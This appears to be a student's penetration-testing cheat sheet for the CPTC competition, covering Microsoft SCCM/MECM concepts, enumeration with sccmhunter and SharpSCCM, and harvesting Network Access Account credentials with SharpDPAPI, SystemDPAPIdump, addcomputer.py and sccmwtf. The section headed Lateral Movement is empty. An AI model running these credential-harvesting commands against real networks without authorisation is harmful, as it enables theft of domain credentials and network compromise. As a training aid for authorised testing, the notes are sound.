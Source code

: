 # SCCM

SCCM (now MECM and previously SMS) is the System Center Configuration Manager.

It is an on-prem AD-integrated solution that aims to handle path management, task automation, remote control, and often is joined with OS deployment (through PXE). 

There is now a cloud native version from MS called Intune

* CPTC has historically made "trendy" vulns a big part of that year's competition (which is why I have a separate document for SCCM).
	* CHECK THE COMMITS,,, I PUSHED BEFORE THE DEADLINE 

**Important Definitions**:

* Site Server: The server that hosts the SCCM site
	* Will always have a 3-letter site code
* Network Access Account (NAA)
	* Used to authenticate to the SCCM server if the machine isn't domain-joined yet
	* This is widely used, but is not required. Enhanced HTTP is a more secure alternative
* Client Push Installation Accounts (Push Account)
* (WSUS) 
* Operating System Deployment (OSD)
	* SCCM can deploy windows onto multiple machines at once through PXE (Network Boot)
	* This happens through a PXE server, which happens through a "wim" file
	* There should be a password requested when the installer is run - but this is often not the case
	* After network boot, the OS image will be transferred via HTTP and installed. The machine will then be domain joined and programs will be configured

## Enumeration

Linux:

* [**PXEThief**](https://github.com/MWR-CyberSec/PXEThief)

* [**sccmhunter**](https://github.com/garrettfoster13/sccmhunter)

`python3 sccmhunter.py find -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`
`python3 sccmhunter.py smb -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`


`python3 sccmhunter.py show -users`
`python3 sccmhunter.py show -computers`

Windows:

* Go to `Control panel > Configuration Manager`
	* If SCCM is on the domain, you'll see an assigned management point and a site code

`.\SharpSCCM.exe local site-info`


## Privilege Escalation

### Credential Harvesting

**NAA**:
* If you are a local admin on the SCCM client

Linux:
`SystemDPAPIdump.py <domain>/<low_priv_user>:'<password>'@<server>`

Windows:
`.\SharpSCCM get secrets`
`.\SharpSCCM local secrets -m wmi`
`.\SharpDPAPI SCCM`

* If you are not a local admin, you can make a machine account (all non-privileged users can make 10 machine accounts by default)

`addcomputer.py <domain>/<low_priv_user>:'<password>' -dc-ip <dc ip>`

* [**sccmwtf**](https://github.com/xpn/sccmwtf)

`sccmwtf.py <new machine hostname> <new machine fqdn> <sccm site server hostname (use fqdn in /etc/hosts if not resolving)> '<domain>\<new machine fqdn>$' '<new machine password>`
`.\sccm-decrypt.exe <CDATA>`
### 


## Lateral Movement

